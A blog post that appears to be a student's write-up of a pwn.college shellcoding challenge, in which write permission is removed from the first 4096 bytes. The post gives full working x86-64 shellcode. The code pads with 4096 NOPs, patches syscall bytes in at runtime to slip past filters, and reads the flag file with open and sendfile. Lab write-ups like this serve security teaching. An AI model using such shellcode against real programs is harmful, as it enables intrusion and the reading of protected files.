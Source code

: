 +++
title = 'No Write Permissions in Shellcode Begin'
date = 2023-09-22T14:50:16-04:00
tags = ["shellcoding", "asu"]
description = "In this post, I will explain how I bypassed no-write permissions in a simple shellcoding challenge"
draft = false
+++
A while ago i was solving this challenge from [pwn.college](https://pwn.college) in the `shellcoding` module, it's a pretty fun challenge to solve, where you need to think outside-of-the-box (a little).

This challenge remove write permissions in the first 4096 bytes of our `shellcode`, therefore we need to put 4096 bytes of garbage before we start the `shellcode`.

This sounds hard but luckily assembly makes it very easy for us to achieve this.

Here's a program i used to solve the challenge, note that it's exactly like the challenge i have shown at [[Writing Shellcode without Syscalls]], but this time the first 4096 bytes of the `shellcode` aren't written.
```nasm
.global _start
_start:
.intel_syntax noprefix
    .rept 4096
    nop
    .endr

    # prepare syscall
    mov byte ptr[rip+label], 0x0f
    mov byte ptr[rip+label+1], 0x05
    lea r9, [rip+label]

    # clear registers
    xor rbx, rbx
    xor rdx, rdx
    xor rsi, rsi
    xor rdi, rdi
    xor r10, r10

    # open flag file
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    mov rax, 2
    call r9

label:
    .word 0x0000

    xor r9, r9
    # prepare next syscall
    mov byte ptr[rip+label2], 0x0f
    mov byte ptr[rip+label2+1], 0x05
    lea r9, [rip+label2]

    xor rsi, rsi
    xor r10, r10
    xor rdi, rdi
    xor rdx, rdx
    xor rbx, rbx
    # sendfile
    mov rdi,1
    mov rsi, rax
    mov r10, 100
    mov rax, 40
    call r9
label2:
    .word 0x0000

    xor r9, r9
    # prepare syscall
    mov byte ptr[rip+label3], 0x0f
    mov byte ptr[rip+label3+1], 0x05
    lea r9, [rip+label3]
    # exit
    xor rsi, rsi
    xor r10, r10
    xor rax, rax
    xor rdi, rdi
    mov rax, 60
    mov rdi, 5
    call r9

label3:
    .word 0x0000
```

We used the `.rept <value>` instruction and the `.endr` instruction which ends the repeat, basically like a loop and everything in-between will be repeated in the assembled program.

For example, the following code would write 4096 nops in our `shellcode`, resulting in a very long `shellcode` but effectively bypassing the required filters.
```nasm
.rept 4096
nop
.endr
```


